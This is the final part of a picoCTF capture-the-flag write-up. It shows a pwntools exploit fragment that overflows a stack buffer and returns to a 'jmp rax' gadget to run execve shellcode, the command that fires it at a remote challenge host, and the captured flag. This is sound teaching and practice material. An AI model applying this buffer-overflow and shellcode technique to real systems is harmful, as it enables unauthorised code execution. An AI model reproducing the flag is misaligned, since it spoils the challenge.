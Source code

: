 ```
# $rax=<feedback> sub to get to <entries[0].message>
# jump to our shellcode
payload += b'A'*4 + p64(0x40116c) # pad remainder of saved rbp, set ret to "jmp rax" gadget
print(len(payload))
target_proc.sendline(payload)

target_proc.interactive()
```
In command line write the code
```
python3 exploit.py remote shape-facility.picoctf.net 52947 
```

## 🏁 Final Flag

`picoCTF{p1v0ted_ftw_b0b2237e}`

## 🛠️ Tools & Techniques

    pwntools (remote, asm, interactive)

    x86_64 shellcode with execve

    ROP gadget chaining (jmp rax)

    Stack pivoting via offset calculation

## 📚 References

    pwntools documentation

    ROP Emporium

    LiveOverflow - Stack Buffer Overflow series

    Shell-storm x86_64 shellcodes

## ⚠️ Disclaimer

This writeup is for educational purposes only. Always obtain legal permission before testing or exploiting software. Unauthorized access is illegal and unethical.



